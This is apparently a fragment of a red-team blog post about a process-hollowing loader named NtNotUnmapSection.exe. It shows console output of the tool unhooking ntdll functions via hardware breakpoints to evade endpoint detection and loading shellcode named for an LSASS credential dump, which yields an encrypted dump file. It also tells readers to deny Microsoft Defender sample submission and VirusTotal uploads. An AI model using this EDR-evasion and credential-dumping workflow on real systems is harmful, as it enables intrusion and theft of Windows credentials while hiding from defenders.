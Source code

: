 ![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/NtProccesHollow/Images/Pasted%20image%2020240324013644.png)

Upon testing execution on a patched system (March 2024) with MDE enabled, Microsoft asks to send this file for submission, please deny this and any uploads to VirusTotal.

```
C:\> .\NtNotUnmapSection.exe
Usage: <1P or H0stname> <sh3llcod3>

C:\> .\NtNotUnmapSection.exe 192.168.100.40 DLLHijackLSASSDump.bin
[+] Stealth mode: Unhooking one function
[+] Creating new process in debug mode
[+] Found LdrLoadDllAddress address: 0x00007FFFF2954850
[+] Setting HWBP on remote process
[+] Breakpoint Hit!
[+] Copying clean ntdll from remote process
[+] Found ntdll base address: 0x00007FFFF2920000
[STEALTH] Function Name : NtAllocateVirtualMemory
[STEALTH] Address of Function: 0x0000025409480570
[+] Unhooked

C:\> dir

    Directory: C:\

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/24/2024   3:26 AM       47033665 ENCRYPTED.DMP
-a----         3/24/2024   3:03 AM          21504 NtNotUnmapSection.exe
```
